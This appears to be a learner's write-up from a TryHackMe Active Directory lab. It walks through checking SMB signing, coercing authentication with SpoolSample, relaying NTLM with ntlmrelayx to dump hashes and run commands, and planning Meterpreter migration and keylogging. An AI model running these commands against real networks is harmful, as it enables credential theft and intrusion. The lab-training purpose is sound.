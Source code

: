 #### SMB signing

In order to relay the coerced authentication attempt, SMB signing should not be enforced. 

It should be noted that there is a difference between SMB signing being allowed and SMB signing being enforced

Since we will be hosting a malicious SMB server, we can ensure our server does not support signing, forcing the target not to sign the SMB authentication attempt.

```
nmap --script=smb2-security-mode -p445 thmserver1.za.tryhackme.loc thmserver2.za.tryhackme.loc
```

We can see that SMB signing is enabled but not enforced based on the output. This means all our conditions are met, and we can start the attack!

### Exploiting Authentication Relays

We will be using the C# exploit for this called SpoolSample. 

This will be used to coecer the THMSERVER2 to authenticate to us in our Kali box and then with `Impacket-ntlmrelayx` we will relay the authentication attempt to THMSERVER1.

Lets set up our NTLM Relay:
```
exzh@kali ~ impacket-ntlmrelayx -smb2support -t smb://"THM1SERVER IP" -debug
```

```ad-note
We need to specify the ip instead of the hostname because if we use the hostname the host can request that we use kerberos authentications instead of NTLM 
```

Back to the server machine.
```
SpoolSample.exe THMSERVER2.za.tryhackme.loc "Attacker IP"
```

If everything was done correctly the ntlmrelayx output should be giving us the ntlm hashes from the target machine

We can also run commands using ntlmrelayx with 
```
exzh@kali ~ impacket-ntlmrelayx -smb2support -t smb://"THM1SERVER IP" -c 'whoami /all' -debug
```

## Exploiting AD Users

### SYSTEM is Sometimes Too Privileged

Meterpreter has a built-in keylogger. This will be useful for extracting the user's keystrokes. However, we can't just start this keylogger and hope for the best since our shell is currently running in the SYSTEM context. SYSTEM won't be typing any keystrokes, so this won't help us. To capture the correct user's credentials, we will need to ensure that our shell is running in the context of that user.

Fortunately, Meterpreter provides us with a migrate feature, and since we are running as SYSTEM, we should be able to migrate to any process. You have remote code execution on THMSERVER1, use this to get a Meterpreter shell.

